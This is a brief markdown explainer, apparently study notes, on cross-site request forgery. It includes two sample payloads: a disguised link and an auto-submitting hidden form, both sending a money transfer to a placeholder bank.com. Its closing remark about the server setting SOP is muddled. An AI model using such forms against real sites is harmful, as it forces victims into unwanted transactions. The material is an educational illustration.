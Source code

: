 # CSRF
Cross-Site Request Forgery is an attack forces an end-user to execute unwanted actions on a web application in which they're currently authenticated.

## Scenario
### GET attack
If user clicks a button to see pictures and bank.com allows transfer with the request with query parameters, money will be transfered to the hacker and CSRF attack succeeded.

```html
<a href="http://bank.com/transfer.do?acct=MARIA&amount=100000">View my Pictures!</a>
```

### POST attack
```html
<body onload="document.forms[0].submit()">
  <form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="MARIA"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
  </form>
  ...
</body>
```

This can be really happened if the server is not set [SOP](https://resources.infosecinstitute.com/bypassing-same-origin-policy-sop/#gref).
